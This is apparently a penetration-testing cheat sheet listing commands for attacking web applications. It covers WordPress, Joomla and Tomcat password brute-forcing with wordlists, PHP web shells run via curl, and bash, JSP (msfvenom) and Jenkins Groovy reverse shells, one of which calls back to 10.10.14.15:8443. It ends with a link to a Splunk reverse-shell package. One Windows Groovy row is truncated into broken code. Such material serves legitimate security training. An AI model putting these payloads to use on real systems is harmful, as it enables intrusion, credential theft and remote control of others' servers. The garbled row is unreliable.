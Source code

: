 | Command                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                    |                                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                                                                                                                                                                                                         | Opens the `/etc/hosts` with `vim` to start adding hostnames                                                                                                                                                                    |                                                                                                  |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`                                                                                                                                                       | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)                                                                       |                                                                                                  |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it (`                                                                                                                                              | `) aquatone (`./aquatone`)and ensures aquatone recognizes the file as nmap scan output (`-nmap`) |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |                                                                                                  |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |                                                                                                  |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |                                                                                                  |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |                                                                                                  |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |                                                                                                  |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |                                                                                                  |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |                                                                                                  |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |                                                                                                  |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |                                                                                                  |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |                                                                                                  |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)     |                                                                                                  |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |                                                                                                  |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |                                                                                                  |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |                                                                                                  |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |                                                                                                  |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |                                                                                                  |
| [reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)                                                                                                                                                                       | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |                                                                                                  |
|                                                                                                                                                                                                                                               |                                                                                                                                                                                                                                |                                                                                                  |
|                                                                                                                                                                                                                                               |                                                                                                                                                                                                                                |                                                                                                  |